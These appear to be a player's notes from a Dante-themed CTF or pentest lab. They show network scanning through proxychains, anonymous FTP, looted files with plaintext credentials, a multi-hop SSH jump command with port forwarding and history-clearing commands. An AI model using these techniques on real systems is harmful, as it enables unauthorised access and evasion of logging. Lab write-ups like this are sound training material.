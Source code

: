 ##### Nmap Scan
```
sudo proxychains nmap -sT -Pn 10.1.10.3
```
![[Pasted image 20250604115245.png]]

##### Checking for Anonymous FTP 
```
proxychains ftp 10.1.10.3
```
![[Pasted image 20250604115416.png]]
##### less clue.txt
```
HA
```

##### less gluttony.log
```
ssh Cerberus@10.1.10.
excess
^C
^C
history -C
ssh Cerberus@10.1.10.3
ssh cerberus@10.1.10.3
unsetHISTFILE
exit
```

##### less shadow.bak
```
pluto:mammon
```

##### less ssh_jump.txt
```
ssh -L 4445:72.69.76.2:445 -J virgil@192.168.1.200:22,cleopatra@172.1.98.15:22,cerberus@10.1.10.3:22,pluto@10.0.0.254:22,phlegyas@255.255.255.9:22,epicurus@9.9.9.8:22,minotaur@222.222.222.187:22,
geryon@3.3.3.3:22 satan@6.6.6.6 -p 22
```

#### Credentials Discovered
```
Cerberus:excess
pluto:mammon
```

##### ssh to 10.1.10.3
```
proxychains ssh cerberus@10.1.10.3
```

##### Check sudo permissions
![[Pasted image 20250604141839.png]]
